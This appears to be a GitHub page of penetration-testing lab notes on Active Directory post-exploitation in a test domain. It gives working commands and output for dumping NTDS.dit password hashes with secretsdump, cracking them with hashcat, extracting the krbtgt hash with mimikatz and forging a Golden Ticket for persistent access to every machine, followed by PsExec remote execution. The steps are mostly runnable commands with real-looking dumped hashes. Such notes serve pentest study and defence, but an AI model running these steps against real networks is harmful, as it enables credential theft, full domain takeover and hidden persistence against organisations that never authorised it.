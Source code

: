 ## We own the domain now what?  
In the event we manage to compromise Domain and there is still time in the engagement, we will continue to provide as much value to the client as possible.  

1. Dump NTDS.dit and crack passwords.
2. Enumerate further shares for sensitive information such as PII data and other findings so that this can be reported.
3. Create persistence in the event our main access is lost and also remember to remove rouge Domain Admin accounts.
4. Test for detections espicially for DA account creations. A good environment should detect these account creations.
5. Creating a Golden Ticket.

---

## 🚩 Dumping the NTDS.dit

### What is NTDS.dit?  
An extremely critical and highly sensitive database used to store AD data within Active Directory / Domain Controllers:
* user information
* group information
* security dscriptors
* password hashes

Using a **known domain admin account** we could use secretsdump and its switch of **-just-dc-ntlm** to dump out the DCs NTDS file. A successful Domain dump will contain a range of information from: SAM, credentials, domains, krbtgt, hashes, local account users, pc logins, and other accounts that may of been created from ipv6 / relayx + mitm6 relay attack.  

example:

    impacket-secretsdump / secretsdump - impacket-secretsdump MARVEL.local/pparker:'Password1'@192.168.64.139 -just-dc-ntlm

using our malicious domain admin account hawkeye against the DC, we succesfully dumped the local SAM and more importantly the NTDS.dit file. From the dump we also see 'kerberos keys' and also the krbtgt which could be later leveraged in a kerberos ticket attack.

    impacket-secretsdump MARVEL.local/hawkeye:'Password1@'@192.168.64.138

![image](https://github.com/user-attachments/assets/dfe18c4b-7172-4012-8155-1c74bbd42f97)

Using -just-dc-ntlm with secretsdump will only dump out the NTDS.dit, filtering out the other data as the name implies.  

    root@kali:/home/kali# impacket-secretsdump MARVEL.local/hawkeye:'Password1@'@192.168.64.138 -just-dc-ntlm
    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:920ae267e048417fcfe00f49ecbd4b33:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:2617733570dcba888a76e40359f8a359:::
    MARVEL.local\tstark:1103:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
    MARVEL.local\SQLService:1104:aad3b435b51404eeaad3b435b51404ee:f4ab68f27303bcb4024650d8fc5f973a:::
    MARVEL.local\fcastle:1105:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
    MARVEL.local\pparker:1106:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
    avrrDOsNBw:1109:aad3b435b51404eeaad3b435b51404ee:253a38577fe79301cf439d788dfa3850:::
    hawkeye:1110:aad3b435b51404eeaad3b435b51404ee:43460d636f269c709b20049cee36ae7a:::
    HYDRA-DC$:1000:aad3b435b51404eeaad3b435b51404ee:86757f6579150e5ef1901687a33b627b:::
    THEPUNISHER$:1107:aad3b435b51404eeaad3b435b51404ee:2338c61f1a4137c16acab764b8fe5022:::
    SPIDERMAN$:1108:aad3b435b51404eeaad3b435b51404ee:1d86510b8589eccf45424b657db6ab52:::
    [*] Cleaning up... 
    root@kali:/home/kali# 

Now that we have the NTLM hashes dumped out from the NTDS.dit, we should filter out the NT portions of the hashes in excel, place it in a .txt file and have it cracked with -m of 1000 (given they are just ntlm) using hashcat. With all the cracked passwords, we can place them back into excel to see the passwords to accounts and also for final reporting.  

![image](https://github.com/user-attachments/assets/bd6014ac-0ea6-472c-b1fb-27290f32b313)

    hashcat -m 1000 ntds111.txt 
    once finished
    hashcat -m 1000 ntds111.txt --show

![image](https://github.com/user-attachments/assets/8b8b4bfb-821c-449f-9edc-f909ce359101)

We can now apply the cracked passwords back to the excel and match the cracked passwords with the hashes through using =vlookup magic or bash script.   

### Note:  
ignore PC passwords, they are typically not going to be cracked and have low value in this scenario.

---

## 🚩 Golden Ticket Attacks  

### What is Golden Ticket Attacks?  
* when we compromise the krbtgt (kerboros ticket granting ticket) we essentially own the domains.
* we can request access to any resource or system on the domain.
* golden tickets == complete access to every machine.

### Why exploit Golden Tickets even when we own the Domain?
* laterally move into accounts that we may not be able to access using forged tickets.
* authenticate into accoutns without needing a password.
* if our domain account is removed, we can still gain access with a Golden Ticket creation, maintaining persistance.

**Using mimikatz.exe to generate Golden Tickets.** 
1. priv debug
2. lsadump for krbtgt account: to obtain sid, krbtgt ntlm hash
3. with the krbtgt hash we can use it to generate a Golden Ticket
4. use Golden Ticket to 'Pass the Ticket' to now access any machine within the domain
5. Golden Ticket can launch tools at machines or users in the same network without username / passwords - Gticket bypasses this requirement
6. when in any account, we could enumerate files and even spawn new shells

---

### Performing a Golden Ticket Attack with a Pass the Ticket attack  

1. On the DC we have obtained mimikatz.exe by GentleKiwi
3. We now aim to obtain the krbtgt account, Kerboros - ticket granting ticket account
4. This allows us to generate tickets if we have the hash of the krbtgt account
5. With the hash of the krbtgt account we can use it to access service and resource or create a 'Golden Ticket' and use that for access.

**From the DC, run as admin on cmd.exe and the following:**  
    mimikatz.exe
    privilige::debug
    lsadump::lsa /inject /name:krbtgt

![image](https://github.com/user-attachments/assets/7baacf00-be56-46aa-ba61-88670fbc1574)

**Here we have obtained the krbtgt details, and use these to 'Pass the Hash' to create a 'Golden Ticket Session':**  
user: krbtgt  
SID of Domain: S-1-5-21-277273238-679169888-2290246510  
ntlm hash: 2617733570dcba888a76e40359f8a359  
/id: 500 (admin account)  
/ptt:  pass the ticket  

**Generate a Golden Ticket and session with these details:**  

    mimikatz # kerberos::golden /User:FakeUser123 /domain:marvel.local /sid:S-1-5-21-277273238-679169888-2290246510 /krbtgt:2617733570dcba888a76e40359f8a359 /id:500 /ptt

![image](https://github.com/user-attachments/assets/668c803d-d4dc-4e3d-985f-a97a78ac3667)

**From this we have now obtained a Golden Ticket for our 'fakeuser123' in current session**  
pull up cmd with the newly created Golden Ticket session.
    
    misc::cmd
    *in new window*
    dir \\THEPUNISHER\c$

![image](https://github.com/user-attachments/assets/76543f30-69a5-4391-8f87-4b2ea17357d1)

We have gained access into THEPUNISHER machine. For further compromise of this user, we could install psexec.exe orr other a sysinternals tool on our attacker machine for remote code execution. Once downloaded, from the terminal we can use 'psexec.exe \\THEPUNISHER\c$' to gain a reverse shell and functional interaction.  

---

**Conclusion:**
* Compromise a Domain Controller (DC) account.
* Hijack the krbtgt Ticket Granting Ticket (TGT) using lsadump.
* Use the krbtgt details to conduct a Pass-the-Hash (PTH) attack.
* Grant a Golden Ticket session with a fake user.
* With the Golden Ticket, access any service or resource due to having Ticket Granting Authority.
* Use the Golden Ticket session to gain access to THEPUNISHER machine.
* Enumerate shares on THEPUNISHER machine.
* With access to the shares, use PsExec or other remote code execution tools from the attacking terminal against THEPUNISHER.
